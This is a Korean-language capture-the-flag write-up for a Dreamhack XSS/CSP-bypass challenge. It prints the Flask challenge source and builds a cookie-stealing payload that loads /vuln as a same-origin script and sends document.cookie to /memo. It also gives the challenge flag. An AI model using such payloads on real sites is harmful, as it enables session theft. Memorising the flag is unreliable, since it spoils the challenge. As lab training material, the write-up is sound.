




```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response


@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```
## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 넣어서 나오는 결과값을 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다. 또한 **nonce** 값도 확인한다.  
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
2. add_header  
-> **@app.after_request** 를 통해 매 http 요청이 끝나고 브라우저에 응답하기 전에 실행하는 함수이고, 응답 헤더에 **CSP에 대한 내용과 nonce** 를 추가한다.  
(https://blusky10.tistory.com/entry/FlaskHTTP-%EC%9A%94%EC%B2%AD%EC%97%90-%EB%8C%80%ED%95%9C-%ED%95%B8%EB%93%A4%EB%9F%AC)  

## 문제 모습  
이전 문제인 **XSS Filtering Bypass Advanced** 와 동일함  
  

## 문제 해결  
**add_header** 함수를 자세히 보면, 어떤 출처의 자원을 사용할 수 있는지 알 수 있다.  
여기에서 사용할 것은 **script** 입니다.  
다만, CSP는 일반적으로 인라인코드를 허용하지 않습니다.  
따라서 다음과 같이 script를 사용할 수 있습니다.  
```html
<script src="alert(1)"></script>
```
이렇게 **src** 를 이용해 상대 경로로 script를 실행할 수 있습니다.  

그러나 위처럼 적으면 실행이 되지 않는다.  
찾아봤을 때, 아래와 같이 경로를 적어줘야 한다고 한다.  

```html
<script src="/vuln?param=alert(1)"></script>
```
(https://dreamhack.io/wargame/writeups/17495)
(https://dreamhack.io/wargame/writeups/9651)

  

즉, 이를 바탕으로 script 를 만들면 다음과 같다.  
```html
<script src="/vuln?param=location.href='/memo?memo='+document.cookie"></script>
```
그러나 이렇게 제출했는데, 답이 나오지 않았다.  

  

burp swite 로 확인한 결과, **+** 가 빠져있는 것을 볼 수 있었다.  
이유를 찾아보니, **+** 를 URL decode 하면, **공백** 으로 처리한다고 한다.  
따라서 + 를 인코딩한 상태인 **%2B** 를 넣어야한다.  

```html
<script src="/vuln?param=location.href='/memo?memo='%2Bdocument.cookie"></script>
```

  

따라서 정답은 **DH{81e64da19119756d725a33889ec3909c}** 이다.